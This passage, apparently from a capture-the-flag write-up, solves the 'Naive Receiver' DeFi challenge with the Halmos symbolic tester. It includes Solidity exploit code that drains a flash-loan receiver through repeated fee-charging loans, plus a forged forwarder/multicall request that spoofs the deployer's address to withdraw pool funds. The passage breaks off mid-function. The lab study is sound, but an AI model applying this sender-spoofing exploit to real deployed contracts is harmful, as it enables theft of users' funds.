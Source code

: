 ```solidity
target.call(payload);
```
```solidity
if (msg.sender == trustedForwarder && msg.data.length >= 20) {
    return address(bytes20(msg.data[msg.data.length - 20:]));
}
```
And Halmos did find a scenario: it needs to be called from under multicall, which will allow us to withdraw on behalf of the **Forwarder** (via **delegateCall**), while withdrawing funds to an arbitrary receiver, emptying the balance of an arbitrary address, inserting it at the end of data. For this we needed the hint from **svm.createBytes()** earlier.
## Using a counterexample
Let's use the **attacker** to devastate the **FlashLoanReceiver**:
```solidity
pragma solidity =0.8.25;

import {NaiveReceiverPool, WETH} from "../../src/naive-receiver/NaiveReceiverPool.sol";
import {FlashLoanReceiver} from "../../src/naive-receiver/FlashLoanReceiver.sol";

contract Attacker {
    function attack(NaiveReceiverPool pool, FlashLoanReceiver receiver, WETH weth) public {
        for (uint256 i = 0; i < 10; i++) {
            pool.flashLoan(receiver, address(weth), 1, "b1bab0ba");
        }
    }
} 
```
```solidity
function test_naiveReceiver() public checkSolvedByPlayer {
    Attacker attacker = new Attacker();
    attacker.attack(pool, receiver, weth);
    ...
}
```
Now we send all pool funds to recovery. We remember that we ignored the player's private key when testing through Halmos. The real attack, of course, requires us to craft a valid request to the **Forwarder**. This time we won't use an **attacker** contract. We don't want to transfer our private key to some contract :)
```solidity
function test_naiveReceiver() public checkSolvedByPlayer {
...
    bytes[] memory callDatas = new bytes[](1);
    callDatas[0] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
        bytes32(uint256(uint160(deployer)))
    );
    bytes memory callData;
    callData = abi.encodeCall(pool.multicall, callDatas);
    BasicForwarder.Request memory request = BasicForwarder.Request(
        player,
        address(pool),
        0,
        30000000,
        forwarder.nonces(player),
        callData,
        1 days
    );
    bytes32 requestHash = keccak256(
        abi.encodePacked(
            "\x19\x01",
            forwarder.domainSeparator(),
            forwarder.getDataHash(request)
        )
```